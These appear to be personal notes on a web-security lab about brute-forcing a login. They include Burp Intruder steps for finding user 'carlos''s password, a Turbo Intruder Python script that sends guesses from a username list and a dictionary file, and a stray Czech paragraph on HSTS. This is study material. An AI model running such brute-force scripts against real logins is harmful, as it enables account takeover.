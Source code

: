5. Edit the list of candidate passwords and add your own password before each one. Make sure that your password is aligned with your username in the other list.
6. Add this list to payload set 2 and start the attack.
7. When the attack finishes, filter the results to hide responses with a 200 status code. Sort the remaining results by username. There should only be a single 302 response for requests with the username *carlos*. Make a note of the password from the **Payload 2** column.
8. Log in to Carlos's account using the password that you identified and access his account page to solve the lab.

**My comment**

Create list with correct password and password and credential name and victim name and set Intruder to Pitchfork

HTTP Strict Transport Security (HSTS) je v informatice bezpečnostní mechanismus, který chrání síťovou komunikaci mezi webovým prohlížečem a webovým serverem před downgrade útoky a zjednodušuje ochranu proti únosu spojení (tzv. cookie hijacking). Mechanismus umožňuje, aby webový server vynutil v prohlížeči komunikaci pouze pomocí šifrovaného HTTPS připojení a vyloučil tím přenos dat nezabezpečeným HTTP protokolem. 

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    
    for i in range(1, 8):
        #engine.queue(target.req, randstr(i), learn=1)
        #engine.queue(target.req, target.baseInput, learn=2)

        #pokus
        #engine.queue(target.req, str(i))
        list_abc = ['carlos','root','admin','test','guest','info','adm','mysql','user','administrator','oracle','ftp','pi','puppet','ansible','ec2-user','vagrant','azureuser','academico','acceso','access','accounting','accounts','acid','activestat','ad','adam','adkit','admin','administracion','administrador','administrator','administrators','admins','ads','adserver','adsl','ae','af','affiliate','affiliates','afiliados','ag','agenda','agent','ai','aix','ajax','ak','akamai','al','alabama','alaska','albuquerque','alerts','alpha','alterwind','am','amarillo','americas','an','anaheim','analyzer','announce','announcements','antivirus','ao','ap','apache','apollo','app','app01','app1','apple','application','applications','apps','appserver','aq','ar','archie','arcsight','argentina','arizona','arkansas','arlington','as','as400','asia','asterix','at','athena','atlanta','atlas','att','au','auction','austin','auth','auto','autodiscover']
        for j in list_abc:
            engine.queue(target.req, [str(i), j])

    for word in open('/usr/share/dict/words'):
        engine.queue(target.req, word.rstrip())


def handleResponse(req, interesting):
    if interesting:
        table.add(req)
```
